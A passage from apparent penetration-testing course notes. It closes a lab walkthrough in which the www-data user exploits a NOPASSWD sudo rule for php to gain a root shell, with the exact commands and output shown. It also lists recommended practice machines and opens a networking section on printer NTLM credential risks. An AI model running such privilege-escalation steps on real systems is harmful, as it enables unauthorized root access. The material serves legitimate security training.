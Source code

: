 Now we go to `/home/mrb3n` to get the user flag `user.txt`. Running `sudo -l`, we get
```bash
www-data@gettingstarted:/home/mrb3n$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

The `php` interpreter can be runned as root. Therefore:
```bash
www-data@gettingstarted:/home/mrb3n$ cd /tmp
www-data@gettingstarted:/tmp$ echo "<?php system('sudo bash'); ?>" > privesc.php
www-data@gettingstarted:/tmp$ sudo php privesc.php
root@gettingstarted:/tmp# whoami
root
root@gettingstarted:/tmp# cat /root/root.txt
```

### Recommended Machines/Challenges

* Retired Machines: Academy (E), Access (E), Active (E), Admirer (E), Antique (E), Arctic (E), Armageddon (E), Backdoor (E), Bank (E), Bastion (E), Beep (E), Blocky (E), Blue (E), Blunder (E), Bounty (E), BountyHunter (E), Buff (E), Busqueda (E), Cap (E), Chatterbox (M), Curling (E), Delivery (E), Devel (E), Doctor (E), Driver (E), Explore (E), Forest (E), FriendZone (E), Frolic (E), GoodGames (E), Grandpa (E), Granny (E), Haystack (E), Heist (E), Help (E), Horizontall (E), Inject (E), Irked (E), Jerry (E), Knife (E), Laboratory (E), LaCasaDePapel (E), Lame (E), Late (E), Legacy (E), Love (E), Luanne (E), MetaTwo (E), Mirai (E), MonitorsTwo (E), Nest (E), Netmon (E), Networked (E), Nibbles (E), NodeBlog (E), Nunchucks (E), Omni (E), OpenAdmin (E), OpenSource (E), Optimum (E), Pandora (E), Paper (E), PC (E), Photobomb (E), Pilgrimage (E), Poison (M), Postman (E), Precious (E), Previse (E), RedPanda (E), Remote (E), Return (E), RouterSpace (E), Safe (E), Sauna (E), ScriptKiddie (E), Secret (E), Sense (E), ServMon (E), Shocker (E), Shoppy (E), Soccer (E), Spectra (E), Squashed (E), SteamCloud (E), Sunday (E), Support (E), SwagShop (E), Tabby (E), Teacher (E), Timelapse (E), Toolbox (E), Topology (E), Traceback (E).

* Retired Challenges: Find The Easy Pass (E), Weak RSA (E), You know 0xDiablos (E), Emdee five for life (E), Under Construction (M).

* Tracks: Beginner Track (E).



## 4. Introduction to Networking

### Introduction

Printers should be on their own network. This may sound weird, but it is next to impossible to secure a printer. Due to how Windows works, if a printer tells a computer authentication is required during a print job, that computer will attempt an NTLMv2 authentication, which can lead to passwords being stolen. Additionally, these devices are great for persistence and, in general, have tons of sensitive information sent to them.
